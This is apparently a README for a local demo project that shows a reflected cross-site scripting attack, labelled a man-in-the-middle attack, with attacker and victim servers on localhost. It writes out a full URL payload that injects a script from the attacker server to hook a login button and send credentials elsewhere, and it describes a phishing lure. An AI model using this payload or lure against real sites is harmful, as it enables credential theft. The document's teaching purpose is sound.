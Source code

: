 # Perform Man In The Middle (MITM) attack using Javascript

## Install yarn and dependencies through 'yarn' or 'npm'

I prefer yarn over npm, but npm can be used as well. Whenever you wish to execute the command just replace 'npm' with 'yarn'.

Install dependencies through yarn:  
`yarn install`

## Lite-Server

Upon executing `yarn install` command, it installs the `lite-server` package/library in the project (node_modules).

***Lite-Server*** as the name suggests is the very light web server with minimum execution facility, purely meant to display web pages.

## Configuration

***package.json*** consists of project management and tunning configuration. We have defined two lite-server for our purpose for attacker and victim. 


## Execute Hacker 'Lite-Server'

We have configured the project (in package.json) to execute the lite-server on port 3000, for the attacker, using command `yarn run lite-server` using the `bs-config.json`.

Screenshot:  
![Screenshot](HackerLiteServer.png)


## Execute Victim 'Lite-Server'

We have configured the project (in package.json) to execute the lite-server on port 4000, for the attacker, using command `yarn run lite-server-victim` using the `bs-config-victim.json`.

Screenshot:  
![Screenshot](VictimLiteServer.png)


## Set the bait for Victim

We will set the bait for the Victim by emailing the victim with the chance to win prize on the legitimate webserver domain by changing the values in the parameter. The legitimate webserver running for the domain localhost:4000. 

URL/Link:  
`http://localhost:4000/?Name=John%20Doe%20you%20have%20Big%20Bonanza%20Offer:%20%3Cinput%20type=%27button%27%20title=%27Big%20Bonanza%20Offer%27%20value=%27Scratch%20Card%27%20onclick=%22if(document.getElementById(%27SomeFlag%27)==undefined)%20{%20maliciousScript%20=%20document.createElement(%27script%27);%20maliciousScript.src%20=%20%27http://localhost:3000/ManInTheMiddelAttack.js%27;%20document.body.appendChild(maliciousScript);%20someFlag%20=%20document.createElement(%27SomeFlag%27);%20someFlag.id%20=%20%27SomeFlag%27;%20document.body.appendChild(someFlag);%20alert(%27You%20will%20get%20an%20email%20notification%20for%20the%20offer%27);%20setTimeout(%20function()%20{%20injectManInTheMiddleScript();%20}%20,%201000);%20}%20%22%20/%3E`

URL Explanation:  
- We have not changed the domain name at all. 
- The hack is place as the value for the parameter 'Name'.
- The value of the 'Name' Parameter is:
    * John Doe you have Big Bonanza Offer: <input type='button' title='Big Bonanza Offer' value='Scratch Card' onclick="if(document.getElementById('SomeFlag')==undefined) { maliciousScript = document.createElement('script'); maliciousScript.src = 'http://localhost:3000/ManInTheMiddelAttack.js'; document.body.appendChild(maliciousScript); someFlag = document.createElement('SomeFlag'); someFlag.id = 'SomeFlag'; document.body.appendChild(someFlag); alert('You will get an email notification for the offer'); setTimeout( function() { injectManInTheMiddleScript(); } , 1000); } " />
- The value gets embedded as an innerHtml within the page performing the exploit as follows:  
![Screenshot](TransformmedInnerHtml.png)  
- Upon clicking the ***bait*** link will gets a message:  
    * Behind the scene a Malicious javascript file get attached to the web page  
      ![Screenshot](ExploitClick.png)  
      ![Screenshot](ButtonClick.png)  
    * The login button click functionality is replaced by a function Malicious javascript, which executes the login button click along with sending the secret detail to the other link or url  
    * Loading Script:  
      ![Screenshot](ScriptLoaded.png)  
    * Malicious Script by clicking on the bait button:  
      ![Screenshot](SilentlyListen.png)  
    * Malicious Script  
      ![Screenshot](FunctionInTheMiddle);
    * Execution of Legit Code along with Malicious Code  
      ![Screenshot](MaliciousCodeExecution.png)


## Steps to overcome this attack

- Never execute any long URL without reading them correctly even though the domain is legit
- Web developers should prohibit the user or innerHTML to display HTML. As we have seen it could be hacked in real life.
